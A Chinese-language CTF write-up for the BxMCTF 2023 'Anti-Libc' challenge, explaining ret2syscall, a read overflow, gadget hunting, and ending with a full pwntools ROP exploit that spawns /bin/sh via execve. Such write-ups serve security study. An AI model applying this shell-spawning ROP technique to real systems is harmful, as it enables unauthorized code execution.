
# ret2syscall
也就是控制程序执行系统调用来获取 shell

# BxMCTF 2023  Anti-Libc
## main

## write_buf
写入字符，稍后再输出

## flush_obuf
把字符输出到屏幕

## readint
输入接下来要输入的数字的长度；根据符号判断并分支处理

## read_buf
如果发现 start 和 end 相同，就重新输入；否则返回输入数据所在数组中 start 位置的字节
这里 sys_read 存在明显的溢出

# 思路
说实话，这堆东西真的很绕（我太菜了）
坑的地方在于汇编源码最后的循环里有一个 inc r10，但 IDA 没有显示出来，直接原地继续赋值 EMMMMMMM


发现这个坑之后，题目就变得容易多了

检查文件是否静态链接

检查保护机制（完全不符合外国出题风格）

肯定是要溢出构造 ROP 链，然后进行系统调用

> 32 位和 64 位的 syscall 原理是一样的
只是参数传递和调用方式不同；下面放在一起解释以作对比
32 位系统调用使用 " int 80h "
64 位系统调用使用 " syscall "（汇编指令就是 syscall；直接用 ROPgadget --only 搜索即可）
32 位的系统调用号和 64 位的有些不同；使用时最好查一下
例如
32 位     #define __NR_execve 11
64 位     #define __NR_execve 59
32 位的系统调用号放在 eax 中；参数按顺序传递：EBX、ECX、EDX、ESI、EDI、EBP
64 位的系统调用号放在 rax 中；参数按顺序传递：RDI、RSI、RDX、R10、R8、R9（和 64 位函数传参一样）

先找 rdi

选择了 0x0000000000401135
看一下 jmp  0x401106

有一个 ret，但 esi 的值会减 1，rdi 的值会加 1
emmm 不过通过一些构造应该还是可行的
试一下 rax

失败
试一下 eax

失败
ax

失败
al

同样失败
只能在反汇编中搜索


找到了

看一下对应位置的汇编代码

发现需要构造 %ebx 寄存器
下面恰好就有一个

漂亮，漂亮
那么最后怎么调用系统调用呢？
发现这里有一个 mov %rbp %rsp，所以如果之前保存的 rbp 合适，就可以继续 ROP；rbp 应该是 syscall 调用前的十六个字节，因为还有 pop rbp 和 pop rbx 要偏移

# exp
一个很坑的地方是……我忘了如果两次 sendline 之间的间隔太短，程序会把它们当作一次性收到的
```python
from pwn import *
#context(os="linux",arch="amd64",log_level="debug")
e = ELF("./main")
p = process("./main")
#p = gdb.attach(p, "b*main")
offset = 64  
input_buf = 0x402020
onemore = b"\x00"
BIN_SH = b"/bin/sh\x00"
EVIL = onemore + BIN_SH 
DUMMY_RBP = p64(1)  #随便填
DUMMY_RBX = p64(1)  #随便填
SYSCALL = p64(0x401055)
EVIL_ADDRESS = input_buf +len(DUMMY_RBP + DUMMY_RBX + SYSCALL)#作为rdi
POP_RSI_RDI = p64(0x401135)  # pop rsi ; pop rdi ; jmp 0x401106
POP_RBX = p64(0x40109C)
MOV_EBX_EAX = p64(
    0x40108D
)  # mov %ebx,%eax ; neg %ebx; cmpb $0x1,(%rsp); cmove %ebx,%eax ; mov %rbp,%rsp ; pop %rbp ; pop %rbx; ret
RSI = p64(1)
RDI = p64(EVIL_ADDRESS)
RBX = p64(0x3B)  # it'll go into RAX which is needed for correct syscall
RBP = p64(input_buf)  # 最后的MOV_EBX_EAX这个地方最后有mov %rbp,%rsp ; pop %rbp ; pop %rbx; ret从而可以执行系统调用


payload = DUMMY_RBP + DUMMY_RBX + SYSCALL + EVIL
padding = b"A" * (offset - len(DUMMY_RBP + DUMMY_RBX + SYSCALL + EVIL))
payload += padding + RBP + POP_RSI_RDI + RSI + RDI
payload += POP_RBX + RBX + MOV_EBX_EAX
print(len(payload))
print(p.recvuntil("input? "))
p.sendline(str(len(payload)))
sleep(3)   # 防止间隔时间太多被当作一次性发过去了
p.sendline(payload)
p.interactive()
```

